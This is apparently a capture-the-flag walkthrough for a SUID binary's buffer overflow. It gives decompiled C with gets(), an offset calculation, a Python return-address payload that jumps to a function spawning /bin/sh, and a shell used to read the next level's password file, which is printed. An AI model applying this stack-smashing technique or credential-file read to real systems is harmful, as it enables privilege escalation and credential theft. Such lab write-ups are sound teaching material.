

# Walkthrough level1

First of all we look at the files:

```bash
level1@RainFall:~$ ls -la
(...)
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

We can see the [SUID](https://www.redhat.com/sysadmin/suid-sgid-sticky-bit)
bit is on and the owner is level1. So the file will be executed by level1.

Try to run the file:

```bash
level1@RainFall:~$ ./level1
asdf
level1@RainFall:~$
```

With the disassembly code we write the c code:

```c
#include <stdio.h>

void run(void) {
  fwrite("Good... Wait what?\n", 19, 1, stdout);
  system("/bin/sh");
}

int main(void) {
  char buffer[64];
  gets(buffer);
}
```

In the code we can see the function `gets` who read from the standard input to
the buffer wich result to a buffer overflow. With this buffer overflow we can
modify the stack and especially the saved EIP of main.

Here is a schema of the stack:

<p align="center">  </p>

Padding = `64 (buffer size) + 8 (align byes size) + 4 (saved EBP size) = 76`

Address of function run = `0x08048444`

Well we can generate the payload with the informations:

```bash
level1@RainFall:~$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/test.txt
level1@RainFall:~$ cat /tmp/test.txt | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

After some research we find this [link](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process) who explain that we are not in interactive mode because of the pipe.

```bash
cat /tmp/test.txt - | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^CSegmentation fault (core dumped)
level1@RainFall:~$ su level2
Password: 53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
(...)
level2@RainFall:~$
```
